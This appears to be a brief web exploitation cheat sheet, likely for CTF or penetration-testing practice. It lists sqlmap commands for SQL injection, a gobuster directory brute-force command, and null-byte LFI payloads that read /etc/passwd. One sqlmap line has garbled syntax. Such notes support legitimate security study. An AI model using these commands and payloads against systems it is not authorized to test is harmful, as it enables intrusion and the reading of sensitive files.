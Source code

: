 # Web Expoitation

1. Read page source
2. Look for every message you see, usernames embedded?



## SQL injection

### SQLmap

#### SQLmap with GET parameters
```
sqlmap -u {url} -p {params}
```

#### SQLmap with POST parameters
```
sqlmap -u {url} --data {data} - {POST param}
```

## Gobuster
```
gobuster dir -u {url} -w {wordlist} [-x {extension}]
```

## Local File Inclusion

### Null Byte Technique

Null byte injection bypasses application filtering within web applications by adding URL encoded “Null bytes” such as %00. Typically, this bypasses basic web application blacklist filters by adding additional null characters that are then allowed or not processed by the backend web application.

Some practical examples of null byte injection for LFI:
```
vuln.php?page=/etc/passwd%00
vuln.php?page=/etc/passwd%2500
```